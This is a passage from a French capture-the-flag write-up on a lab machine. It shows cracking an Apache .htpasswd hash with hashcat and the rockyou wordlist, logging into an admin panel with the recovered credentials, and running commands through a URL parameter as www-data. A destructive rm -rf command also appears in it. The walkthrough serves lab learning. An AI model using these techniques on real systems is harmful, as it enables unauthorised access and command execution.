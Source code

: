 Le premier flag est présent. 

## Privilege Escalation

Dans le même répertoire on trouve aussi un fichier .htpasswd intrigant : 

```bash
cat /var/www/html/admin/.htpasswd

itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

Ça nous sera sûrement utile par la suite. Avec un petite recherche Google sur **$apr1** on se rend compte qu'il s'agit de MD5 utilisé par Apache avec plusieurs itérations. Le lien [ici](https://httpd.apache.org/docs/2.4/fr/misc/password_encryptions.html).

Heureusement j'ai toujours **hashcat** sous la main et ça tombe bien puisqu'il possède un mode pour cracker les hashs MD5 utilisés par Apache :

```bash
hashcat -h | grep Apache

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | HTTP, SMTP, LDAP Server
```

Il s'agit du **mode 1600**. On a juste à **ajouter le hash** à un fichier qu'on va appeler ``hash.txt``.                                                                                     
On utilise maintenant la commande avec la wordlist **rockyou** :

```bash
hashcat -m 1600 --force hash.txt /usr/share/wordlist/rockyou.txt
```
Après quelques instants on trouve le mot de passe : **jessie**.

Nous avons donc la combinaison suivante : ``itsmeadmin:jessie``.                                                                                                                                       
Sur la machine il n'y a pas de compte nommé **itsmeadmin** donc on ne peut que l'utiliser sur le site web à l'adresse : http://192.168.1.47/admin

Effectivement on se retrouve connectés. Sur cette page on retrouve un bouton **Clean Downloads** qui exécute une commande via l'URL : 

```bash
rm -rf /var/www/html/tmp/downloads
```

Ok, donc on doit pouvoir nous aussi exécuter des commandes via cette URL. Essayons :

```bash
http://192.168.1.47/admin/?c=id
```

Le résultat n'est pas aussi flamboyant qu'on l'aurait espéré :

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Effectement, on peut **exécuter** des commandes avec les droits de l'utilisateur ``www-data`` mais pour le moment peu d'utilités puisque nous avons déjà un shell avec cet utilisateur.
Il s'agit donc soit d'une fausse piste, soit il y a une autre façon d'exploiter ceci.
